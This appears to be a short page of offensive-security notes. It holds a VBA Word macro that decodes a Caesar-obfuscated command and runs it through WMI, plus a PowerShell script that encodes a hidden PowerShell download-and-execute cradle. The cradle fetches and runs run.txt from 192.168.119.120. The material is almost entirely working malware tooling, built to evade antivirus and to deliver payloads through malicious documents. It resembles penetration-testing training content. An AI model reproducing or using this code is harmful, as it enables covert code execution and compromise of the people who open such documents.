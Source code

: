 ```vb

Function MyMacro()
    Dim Apples As String
    Dim Water As String
    
    If ActiveDocument.Name <> Nuts("131134127127118131063117128116") Then
	  Exit Function
	End If
	
    Apples = "129128136118131132121118125125049062118137118116049115138129114132132049062127128129049062136049121122117117118127049062116049122118137057057127118136062128115123118116133049132138132133118126063127118133063136118115116125122118127133058063117128136127125128114117132133131122127120057056121133133129075064064066074067063066071073063066066074063066067065064115128128124063133137133056058058"
    Water = Nuts(Apples)

'GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid'
GetObject(Nuts("136122127126120126133132075")).Get(Nuts("104122127068067112097131128116118132132")).Create Water, Tea, Coffee, Napkin
End Function
```

Encryption script

```powershell
$payload = "powershell -exec bypass -nop -w hidden -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"

[string]$output = ""
# converts payload into char array and runs output through a Foreach loop (%).
# Inside the loop, the byte value of each character is increased by 17, which is the Caesar cipher key selected in this example. We'll use if and else conditions to pad the character's decimal representation to three digits.
# Finally, each decimal value is appended to the output string and piped onto the clipboard through clip
$payload.ToCharArray() | %{
    [string]$thischar = [byte][char]$_ + 17
    if($thischar.Length -eq 1)
    {
        $thischar = [string]"00" + $thischar
        $output += $thischar
    }
    elseif($thischar.Length -eq 2)
    {
        $thischar = [string]"0" + $thischar
        $output += $thischar
    }
    elseif($thischar.Length -eq 3)
    {
        $output += $thischar
    }
}
$output | clip
```
